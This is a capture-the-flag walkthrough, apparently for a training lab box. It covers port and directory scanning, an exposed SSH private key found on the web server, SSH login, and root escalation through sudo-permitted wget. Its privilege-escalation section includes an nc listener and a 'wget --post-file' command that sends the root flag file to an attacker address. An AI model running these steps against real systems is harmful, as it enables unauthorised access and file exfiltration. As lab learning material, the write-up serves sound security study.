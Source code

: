 
---

## Enumeration

First, scan all ports on the target:

```bash
nmap -Pn -sV -p- 0.0.0.0
```

---

## Web Enumeration

Check directories with **dirb**:

```bash
dirb http://0.0.0.0
```

On the first Ubuntu page, the page source reveals a username:

```
Jessie
```

Also found an accessible private SSH key:

```
http://10.201.81.9/sitemap/.ssh/id_rsa
```

Save and set proper permissions:

```bash
chmod 600 id_rsa
```

---

## Initial Access

SSH into the machine using the discovered username and key:

```bash
ssh jessie@0.0.0.0 -i id_rsa
```

Retrieve the user flag:

```bash
cat Documents/user_flag.txt
```

---

## Privilege Escalation

Check `sudo` privileges:

```bash
sudo -l
```

The user can only run `wget` as root. This can be abused to exfiltrate files.

On the attacker machine, start a listener:

```bash
sudo nc -lvp 80
```

On the target machine, exfiltrate the root flag:

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.8.23.255
```

The contents of the **root flag** will be received on your attacker machine.

or do something like this

```bash
sudo wget -i /root/root_flag.txt
```

---

✅ **User flag obtained**  
✅ **Root flag exfiltrated with wget**

---